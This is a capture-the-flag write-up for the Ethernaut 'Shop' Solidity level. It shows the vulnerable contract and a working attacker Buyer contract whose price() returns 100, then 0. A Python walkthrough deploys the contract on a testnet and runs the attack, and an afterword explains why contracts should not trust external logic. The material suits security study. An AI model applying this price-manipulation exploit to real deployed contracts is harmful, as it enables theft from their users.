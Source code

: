 # 21 - Shop

## Challenge

Сan you get the item from the shop for less than the price asked?

Things that might help:

- `Shop` expects to be used from a `Buyer`
- Understanding restrictions of view functions

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

## Summary

Very simple level.

- Write a `Buyer` contract that implements the `price()` function
- When `if (_buyer.price()` is called, `isSold` is false, we return 100 here
- When `price = _buyer.price();` is called, `isSold` is true, we return 0 here in `Buyer` so it sets a lower price.

## Walkthrough

```py
>>> from cheb3 import Connection
>>> from cheb3.utils import compile_sol
>>> conn = Connection("https://goerli.infura.io/v3/<key>")
>>> account = conn.account("<priv_key>")
>>> contract_addr = '0x6f6214026b7fc9e4e087C79C9522Afa87196ddF5'
```

Deploy the buyer contract:

```py
>>> abi, bytecode = compile_sol('''
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IShop {
    function isSold() external view returns (bool);
    function buy() external;
}

contract Buyer {
    IShop shop;

    constructor(address _shop) public {
        shop = IShop(_shop);
    }

    function price() external view returns (uint) {
        if (shop.isSold()) {
            return 0;
        } else {
            return 100;
        }
    }

    function attack() external {
        shop.buy();
    }
}
''',
solc_version="0.8.17",
base_path="Ethernaut/node_modules/"
)['Buyer']
>>> attackContract = conn.contract(account, abi=abi, bytecode=bytecode)
>>> attackContract.deploy(contract_addr)
2023-06-29 22:29:36.552 | DEBUG    | cheb3.contract:deploy:94 - Deploying contract ...
2023-06-29 22:29:39.211 | INFO     | cheb3.contract:deploy:99 - The contract is deployed at 0x76332574cdc75e1E9f220316B1A88A725786b3B3
```

Now call `attack`:

```py
>>> attackContract.functions.attack().send_transaction()
2023-06-29 22:30:27.299 | INFO     | cheb3.contract:send_transaction:236 - (0x76332574cdc75e1E9f220316B1A88A725786b3B3).attack transaction hash: 0xc75ef39275ccc684b5548cb6e213aec7f9f1da55847065c4c99307ad549b7b28
```

Now, `await contract.price()` shows 0 as expected. Finally, submit the instance to pass the level.

## Afterword

Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.